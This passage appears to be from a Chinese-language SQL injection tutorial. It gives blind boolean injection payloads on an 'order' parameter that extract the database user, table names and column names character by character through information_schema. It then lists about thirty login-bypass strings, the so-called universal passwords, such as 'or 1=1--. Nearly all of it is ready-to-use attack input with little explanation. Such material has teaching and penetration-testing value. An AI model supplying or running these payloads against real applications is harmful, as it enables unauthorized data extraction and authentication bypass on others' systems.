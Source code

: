 **数据猜解**

```
/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误

可以得知user()第一位为r,ascii码的16进制为0x72

猜解当前数据库的表名：

/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误

猜解指定表名中的列名：

/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```

### 登陆框的注入

万能密码基本大家都用过，各种各样的，如下

```
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
'|0#
```

